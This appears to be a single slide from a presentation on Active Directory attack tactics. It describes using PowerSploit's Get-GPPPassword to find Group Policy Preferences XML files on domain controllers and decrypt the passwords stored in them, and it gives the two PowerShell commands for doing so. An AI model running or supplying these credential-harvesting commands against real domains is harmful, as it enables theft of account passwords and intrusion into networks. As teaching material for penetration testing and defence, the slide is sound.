

# Tactic 9: Group Policy Preferences
PowerSploit has a module which will search domain controllers for the appropriate policy .xmls, extract any found passwords, and automatically decrypt them

PS C:\> Import-Module PowerSploit.ps1
PS C:\> Get-GPPPassword